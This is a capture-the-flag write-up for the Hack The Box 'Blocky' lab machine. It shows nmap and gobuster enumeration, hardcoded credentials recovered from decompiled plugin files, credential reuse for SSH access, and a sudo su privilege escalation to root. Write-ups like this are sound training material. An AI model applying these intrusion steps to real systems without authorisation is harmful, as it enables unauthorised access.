 ```yaml
---
layout: writeup
title: Blocky
description: HTB writeup
logo: /assets/img/writeups/blocky_logo.png
show-avatar: false
permalink: /writeups/blocky.html
OS: Linux
difficulty: Easy
release: 21 Jul 2017
creator: <a href="https://www.hackthebox.eu/home/users/profile/2904">Arrexel</a>
cleared: 3 Nov 2019
published: 2019 11 03
---
```


<h2 align="center">Enumeration</h2>
Starting with a standard nmap scan...

```
# Nmap 7.80 scan initiated Fri Nov  1 19:17:36 2019 as: nmap -sC -sV -p- -oN nmapscan.txt 10.10.10.37
Nmap scan report for 10.10.10.37
Host is up (0.098s latency).
Not shown: 65530 filtered ports
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  1 19:20:49 2019 -- 1 IP address (1 host up) scanned in 192.23 seconds

```

We see there is a wordpress page running on port 80

<img src="/assets/img/writeups/blocky_wordpress.png" alt="wordpress" style="zoom: 50%;" />



Running 

```sh
gobuster dir -w <wordlist> -x .php,.txt -o <outputfile> -u http://10.10.10.37
```

with the appropriate wordlist yielded the following results

```sh
/index.php (Status: 301)
/wiki (Status: 301)
/wp-content (Status: 301)
/wp-login.php (Status: 200)
/plugins (Status: 301)
/license.txt (Status: 200)
/wp-includes (Status: 301)
/javascript (Status: 301)
/wp-trackback.php (Status: 200)
/wp-admin (Status: 301)
/phpmyadmin (Status: 301)
/wp-signup.php (Status: 302)
/server-status (Status: 403)
```

We see several interesting possibilities for further enumeration and exploit paths, what we need  however is in /plugins

![plugins](/assets/img/writeups/blocky_plugins.png)

downloading both these files and looking at them with **jd-gui** shows us the following

![blockycore](/assets/img/writeups/blocky_blockycore.png)

This login and password will get us into the phpmyadmin portal, where we can look at the mySQL wordpress users table and find there is a user named **notch**, or more simply we can direct our browser to http://10.10.10.37/?author=1 and get the user name there.

This user and pass gives us login to FTP and SSH. We obviously login to SSH. We can then read the user.txt file.

Gaining root is as simple as running "sudo -l" and seeing the notch can run everything as root, and then switching to root, which we can do as we have notch's password

```
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su
root@Blocky:/home/notch# whoami
root
root@Blocky:/home/notch# 

```

which gives us access to the root.txt flag.
